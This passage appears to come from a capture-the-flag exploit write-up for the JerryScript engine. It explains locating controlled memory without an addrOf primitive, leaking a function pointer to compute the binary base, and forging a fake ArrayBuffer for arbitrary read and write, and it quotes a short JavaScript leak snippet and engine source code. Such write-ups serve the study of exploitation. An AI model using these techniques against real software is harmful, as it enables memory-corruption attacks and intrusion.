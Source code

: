 So we guess that at address 0x5000, there is a needle. All needles are floats that represent the offset from the array. (`haystack`, which is huge) 

The reason we used the strategy above is because we don't have an `addrOf` prmitive. But since we have an address whose data we can control completely, (by writing and reading to the `haystack` array) we don't need `addrOf`. 

## Leaking a pointer 
There are global objects within the JerryScript heap that contains function pointers. We leak a function pointer and calculate the binary base.

```javascript
let leak = fakeFloat64(42);
// for some reason, printing this causes exploit to fail
let pie_base = parseInt(f64_to_hex(leak), 16) - 0x00A9AA;
```

## Arbitrary read and write
Arbitrary read and write can be done by forging a fake `ArrayBuffer` object, since it contains a raw pointer instead of a compressed one. If it only contained a compressed pointer it would've been hard to exploit since we can only access the JerryScript heap. (This is not true actually since we can write at a relative address overflowing from the JerryScript heap, but only using this is difficult) At first I misunderstood the mechanism of `ArrayBuffer` and thought that it only contained an inlined buffer, but realized there are 2 modes: one mode uses an inline buffer and the other uses a raw pointer. This is evident in `jerry-core/ecma/builtin-objects/ecma-builtin-arraybuffer.c`

```c
ecma_object_t *
ecma_arraybuffer_new_object_external (uint32_t length, /**< length of the buffer_p to use */
                                      void *buffer_p, /**< pointer for ArrayBuffer's buffer backing */
                                      jerry_value_free_callback_t free_cb) /**< buffer free callback */
{
  ecma_object_t *prototype_obj_p = ecma_builtin_get (ECMA_BUILTIN_ID_ARRAYBUFFER_PROTOTYPE);
  ecma_object_t *object_p = ecma_create_object (prototype_obj_p,
                                                sizeof (ecma_arraybuffer_external_info),
                                                ECMA_OBJECT_TYPE_CLASS);

  ecma_arraybuffer_external_info *array_object_p = (ecma_arraybuffer_external_info *) object_p;
  array_object_p->extended_object.u.cls.type = ECMA_OBJECT_CLASS_ARRAY_BUFFER;
  array_object_p->extended_object.u.cls.u1.array_buffer_flags = ECMA_ARRAYBUFFER_EXTERNAL_MEMORY;
  array_object_p->extended_object.u.cls.u3.length = length;

  array_object_p->buffer_p = buffer_p;
  array_object_p->free_cb = free_cb;

  return object_p;
} /* ecma_arraybuffer_new_object_external */

/**
 * ArrayBuffer object creation operation.
 *
 * See also: ES2015 24.1.1.1
 *
 * @return ecma value
 *         Returned value must be freed with ecma_free_value
 */
ecma_value_t
ecma_op_create_arraybuffer_object (const ecma_value_t *arguments_list_p, /**< list of arguments that
                                                                          *   are passed to String constructor */
```